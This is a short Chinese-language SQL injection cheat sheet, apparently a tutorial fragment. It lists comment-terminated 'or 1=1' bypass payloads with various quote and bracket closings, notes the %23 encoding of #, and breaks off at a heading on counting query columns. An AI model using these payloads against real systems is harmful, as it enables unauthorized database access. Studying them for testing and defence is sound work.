 # SQL注入
1.常用的注释payload
or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
2. 查询字段数目